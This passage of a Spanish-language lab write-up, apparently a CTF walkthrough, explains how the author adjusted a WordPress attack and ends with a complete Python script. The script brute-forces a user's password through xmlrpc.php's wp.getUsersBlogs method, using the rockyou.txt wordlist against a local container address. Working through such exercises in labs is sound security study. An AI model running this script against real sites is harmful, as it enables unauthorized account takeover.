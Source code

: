 - **Corrección en la verificación de la respuesta:** Se busca que la condición de error ("incorrectos") se adapte al mensaje devuelto por el sistema. En algunos intentos, se varía la cadena a buscar, por ejemplo, `'incorrectos.'`.
    

---

## 5. **Ajuste Final y Validación de la URL**

En uno de los cambios se actualiza la URL apuntando directamente al endpoint `xmlrpc.php` en lugar de `wp-login.php`. Esto es importante ya que el método `wp.getUsersBlogs` se ejecuta a través de XML-RPC y no en la página de login normal.

**Código final con retoques y manejo de señales:**

```python
import requests
import signal

def salir(sig, frame):
    exit()

signal.signal(signal.SIGINT, salir)

url = 'http://172.17.0.2/wordpress/xmlrpc.php'
usuario = 'luisillo'
contraseña = 'rockyou.txt'

with open(contraseña, 'r', encoding='latin-1') as diccionario:
    passwords = diccionario.readlines()

for password in passwords:
    password = password.strip()

    payload = f"""
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>{usuario}</value></param>
<param><value>{password}</value></param>
</params>
</methodCall>
"""

    print(f"Probamos con la contraseña {password}")

    respuesta = requests.post(url, data=payload)

    if 'incorrectos.' not in respuesta.text:
        print(f"La contraseña del usuario {usuario} es {password}")
        exit(0)
```

